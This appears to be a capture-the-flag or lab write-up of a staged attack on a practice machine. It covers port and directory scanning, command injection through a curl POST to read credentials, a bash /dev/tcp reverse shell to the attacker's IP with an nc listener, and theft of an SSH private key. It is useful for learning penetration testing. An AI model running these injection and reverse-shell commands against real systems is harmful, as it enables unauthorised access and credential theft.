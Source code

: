 Execution Steps
1. Reconnaissance and Vulnerability Discovery
Target IP Address: 10.201.75.222

Attacker IP Address: 10.201.44.153

Initial Scanning:

bash
nmap -sC -sV 10.201.75.222
Results:

Port 21/FTP: Anonymous authentication enabled

Port 80/HTTP: Apache web server running

Port 113: Contained critical path disclosure vulnerability

Web Directory Enumeration:

bash
gobuster dir -u http://10.201.75.222/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x php,html
Critical Discoveries:

/home.php - Unauthenticated command injection vulnerability

/validate.php - Configuration file containing plaintext credentials

2. Initial Compromise
Credential Extraction:

bash
curl -X POST http://10.201.75.222/home.php --data "command=cat /var/www/html/validate.php"
Compromised Credentials:

Username: charlie

Password: cn7824

Reverse Shell Establishment:

bash
# Attacker listener
nc -nvlp 1234

# Command injection payload
bash -c 'exec bash -i &>/dev/tcp/10.201.44.153/1234 <&1'
3. Privilege Escalation Path
SSH Key Discovery:

bash
cd /home/charlie
ls -la
Directory Contents:

teleport - Private SSH key (RSA)

teleport.pub - Public SSH key

user.txt - User flag (restricted access)

Key Extraction:

bash
cat /home/charlie/teleport
Private Key Content:

text
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW
[...full key content...]
-----END RSA PRIVATE KEY-----
4. Preparation for Final Access
The private key was successfully manually copied and stored in the teleport file on the attacking machine. Appropriate permissions were set:

bash
chmod 600 teleport
Next Steps
Establish SSH connection using the compromised private key

Retrieve user flag (user.txt)

Exploit sudo misconfiguration for privilege escalation

Obtain root flag (root.txt)

Complete comprehensive attack documentation

Interim Conclusions
The assessment successfully identified and exploited a critical remote code execution vulnerability in the web application. Unauthorized access was achieved through command injection, leading to the compromise of sensitive authentication credentials and cryptographic material. The obtained SSH private key provides a persistent access mechanism to the target environment.
